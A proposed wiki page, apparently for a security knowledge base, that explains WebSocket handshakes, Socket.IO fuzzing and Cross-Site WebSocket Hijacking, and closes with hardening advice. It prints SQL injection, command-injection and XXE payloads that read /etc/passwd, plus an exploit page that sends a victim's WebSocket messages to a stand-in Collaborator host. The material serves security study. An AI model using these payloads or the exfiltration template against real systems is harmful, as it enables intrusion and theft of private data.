

# Proposed Wiki change

## What will change
Create deep-dive technical concept note for WebSocket security, message manipulation, and Cross-Site WebSocket Hijacking (CSWSH).

## Proposed content
```markdown
---
title: "WebSocket Security: Message Manipulation & Cross-Site WebSocket Hijacking (CSWSH)"
created: 2026-10-01
updated: 2026-10-01
type: concept
tags:
  - web-security
  - api
  - payload
  - csrf
  - bug-bounty
parent: "[[web-and-bug-bounty]]"
cluster: web-and-bug-bounty
sources:
  - sources/websockets.md
confidence: high
contested: false
contradictions: []
---
# WebSocket Security: Message Manipulation & Cross-Site WebSocket Hijacking (CSWSH)

> **Classification**: OWASP Top 10, CWE-345 (Insufficient Verification of Data Authenticity), CWE-352 (Cross-Site Request Forgery in Handshake).
> **Primary Impact**: Real-time exfiltration of private chat histories, unauthorized trade/order execution, and injection of web attacks (SQLi, XSS, RCE) over WebSocket communication channels.

---

<!-- TOC_START -->
## Table of Contents
- [1. WebSocket Architecture & Handshake Protocol](#1-websocket-architecture--handshake-protocol)
  - [HTTP vs WebSockets](#http-vs-websockets)
  - [Handshake Exchange](#handshake-exchange)
  - [Frame Architecture](#frame-architecture)
- [2. Socket.IO Protocol Framing & Fuzzing](#2-socketio-protocol-framing--fuzzing)
  - [Frame Code Catalog](#frame-code-catalog)
  - [Burp Fuzzing Strategy](#burp-fuzzing-strategy)
- [3. Transporting Web Vulnerabilities over WebSockets](#3-transporting-web-vulnerabilities-over-websockets)
  - [SQL Injection](#sql-injection)
  - [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
  - [OS Command Injection](#os-command-injection)
  - [XXE via WebSocket Payloads](#xxe-via-websocket-payloads)
  - [IDOR in Message Routing](#idor-in-message-routing)
- [4. Cross-Site WebSocket Hijacking (CSWSH)](#4-cross-site-websocket-hijacking-cswsh)
  - [Root Cause Mechanics](#root-cause-mechanics)
  - [Weaponized CSWSH Exploit Template](#weaponized-cswsh-exploit-template)
- [5. Testing Tooling & Automation Ecosystem](#5-testing-tooling--automation-ecosystem)
- [6. Defense & Hardening Guidelines](#6-defense--hardening-guidelines)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## 1. WebSocket Architecture & Handshake Protocol

### HTTP vs WebSockets
While standard HTTP is a stateless request-response protocol, WebSockets (RFC 6455) provide persistent, bidirectional, full-duplex communication over a single TCP connection. Once established, both client and server can transmit messages independently with minimal protocol overhead.

### Handshake Exchange
The connection begins as an HTTP/1.1 request that requests protocol elevation:

```http
GET /chat HTTP/1.1
Host: target.com
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Origin: https://attacker.com
```

The server confirms the upgrade with HTTP status `101 Switching Protocols`:
```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
```

- `Sec-WebSocket-Key`: A random base64 nonce generated by the client.
- `Sec-WebSocket-Accept`: Computed by concatenating the key with a standard GUID (`258EAFA5-E914-47DA-95CA-C5AB0DC85B11`), hashing with SHA-1, and base64-encoding. This ensures the server understands the WebSocket protocol.

### Frame Architecture
WebSocket communications are structured into binary or text frames. Client-to-server frames must be masked with a 4-byte masking key to prevent intermediate proxy cache poisoning.



## 2. Socket.IO Protocol Framing & Fuzzing

Socket.IO layers on top of WebSockets, introducing heartbeat management, rooms, and high-level events.

### Frame Code Catalog
- `?EIO=4`: Engine.IO version parameter in handshake URL.
- `40`: Connection opened successfully.
- `2` / `3`: Ping and Pong heartbeat packets.
- `42["event_name", payload]`: Application message containing JSON data.

### Burp Fuzzing Strategy
Because Socket.IO messages are mapped directly to server-side event handlers, each event is an attack surface requiring individual fuzzing:
```python
# Burp Montoya API WebSocket Queueing
def queue_websockets(upgrade_request, message):
    connection = websocket_connection.create(upgrade_request)
    connection.queue('40') # Handshake ACK
    connection.queue('42["chat_message", {"body": "FUZZ"}]')
```

## 3. Transporting Web Vulnerabilities over WebSockets

WebSocket messages bypass standard web application firewalls (WAFs) and input validation filters if security controls are only deployed at the HTTP ingress layer.

### SQL Injection
```json
{
  "action": "lookup_user",
  "username": "admin' OR '1'='1' -- "
}
```

### Cross-Site Scripting (XSS)
```json
{
  "message": ""
}
```

### OS Command Injection
```json
{
  "command": "ping 127.0.0.1 && cat /etc/passwd"
}
```

### XXE via WebSocket Payloads
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<message><user>&xxe;</user><content>read</content></message>
```

### IDOR in Message Routing
```json
{
  "request": "order_details",
  "order_id": 1002
}
```

## 4. Cross-Site WebSocket Hijacking (CSWSH)

### Root Cause Mechanics
WebSockets are **not restricted by the Same-Origin Policy during connection establishment**. Browsers allow JavaScript on `https://attacker.com` to initiate a WebSocket connection to `wss://target.com/chat`.
If the target application relies solely on ambient cookies (`Cookie: session=...`) to authenticate the upgrade handshake, and does not validate the `Origin` header or require anti-CSRF tokens, the connection is authenticated as the victim!

### Weaponized CSWSH Exploit Template
The attacker hosts an exploit script that establishes an authenticated WebSocket to the target, triggers chat history transmission, and streams the messages to Burp Collaborator:

```html
<!DOCTYPE html>
<html>
<head><title>CSWSH Demonstration</title></head>
<body>
<script>
  const ws = new WebSocket('wss://target.com/chat');
  
  ws.onopen = function() {
    // Dispatch handshake command that requests chat history
    ws.send("READY");
  };

  ws.onmessage = function(event) {
    // Exfiltrate received messages (chat logs, financial updates, tokens)
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN/log', {
      method: 'POST',
      mode: 'no-cors',
      headers: { 'Content-Type': 'text/plain' },
      body: event.data
    });
  };
</script>
</body>
</html>
```

## 5. Testing Tooling & Automation Ecosystem

1. **Burp Suite Professional**: Intercept, view, and replay WebSocket frames in Repeater; manipulate handshake headers in Proxy settings.
2. **WebSocket Turbo Intruder**: High-throughput fuzzing extension for WebSocket connections with Python customization.
3. **`wsrepl` (Doyensec)**: Interactive WebSocket Read-Eval-Print Loop terminal utility for rapid protocol probing.
4. **Backslash Powered Scanner**: Customized metric-based fuzzing analyzing message sequence, type distribution, and token lengths.

## 6. Defense & Hardening Guidelines

1. **Strict Origin Header Validation**: The backend must verify that the `Origin` header in the HTTP upgrade request matches a strict whitelist of trusted domains. Reject untrusted handshakes with `403 Forbidden`.
2. **CSRF Tokens in Handshake**: Require a cryptographically unpredictable anti-CSRF token in the handshake request (as a query parameter or custom header).
3. **Token-Based Handshake Authentication**: Require short-lived bearer tokens or tickets generated via standard CSRF-protected HTTP endpoints to establish WebSocket sessions.
4. **Enforce `wss://` (TLS)**: Always mandate encrypted WebSocket transport to protect against eavesdropping and MITM tamper attacks.
5. **Bidirectional Message Sanitization**: Treat all incoming and outgoing WebSocket message frames as untrusted input. Validate schemas, encode HTML entities, and parameterize database queries.


## Primary Sources & Provenance
- Provenance source anchor: [[websockets]]

## Related Pages
- Parent Hub: [[web-and-bug-bounty]]
- Target Concepts: [[csrf-attacks-and-prevention]], [[cross-site-scripting]], [[sql-injection-testing]]
- Related Entities: [[turbo-intruder]]
```

## Evidence and uncertainty
Sourced directly from canonical vault notes in Notes/OLD Notes/WEB/vulnerabilities/.
Validated against schema with zero structural contradictions.

## Human feedback
Human decision required via Decision Studio (http://127.0.0.1:20888) or command line.
